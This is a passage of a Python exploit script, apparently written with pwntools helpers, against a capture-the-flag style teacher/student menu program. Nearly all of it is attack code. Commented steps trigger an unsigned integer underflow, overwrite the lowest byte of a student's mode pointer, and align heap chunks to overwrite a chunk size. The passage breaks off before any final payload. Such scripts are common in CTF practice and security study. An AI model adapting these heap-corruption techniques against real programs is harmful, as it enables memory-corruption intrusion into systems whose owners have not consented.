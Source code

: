 ```python
    if(size > 0):
        sla("please input the size of comment: ", str(size))
    sa("enter your comment:", comment)


def call_parent(id):
    choice(4)
    sla("which student id to choose?", str(id))


def check_review():
    choice(2)


def pray():
    choice(3)


def change_id(id):
    choice(6)
    sla("input your id: ", str(id))


def set_mode(prayed: bool, score=0, mode="nothing"):
    choice(4)
    if(prayed == 1):  # prayed
        sla("enter your pray score: 0 to 100", str(score))
    else:  # not prayed
        sa("enter your mode!", mode)


def quit(content):
    choice(6)
    sla("never pray again!", content)


sla("role: <0.teacher/1.student>: ", str(0))

add_student(1)  # stu0
add_student(1)  # stu1
# ===Step-1: stu1 pray set, give score, unsigned int underflow
change_role(1)
change_id(1)
pray()  # stu1 pray set
change_role(0)
give_score()  # stu.info.score -= 10, int underflow

# ===Step-2: stu1 calloce mode(0x20), pray unset, overwrite the lowest Byte of stu1.mode
change_role(1)
change_id(1)
pray()  # stu1 pray unset
set_mode(False, 0, 'a' * 0x20)
pray()  # stu1 pray set

set_mode(True, 0x60, "a")  # modify lowest Byte of stu1.mode to 0x60 # stu1.mode -> stu2 chk addr

# ===Step-3: chunk align, overwrite chk size of stu2
change_role(0)

add_student(1)  # stu2 # 0x30+0x20
write_review(1, 0x300, 'a' * 8)  # 0x310
add_student(1)  # stu3 # 0x30+0x20
write_review(3, 0x100, 'a' * 8)  # 0x110
```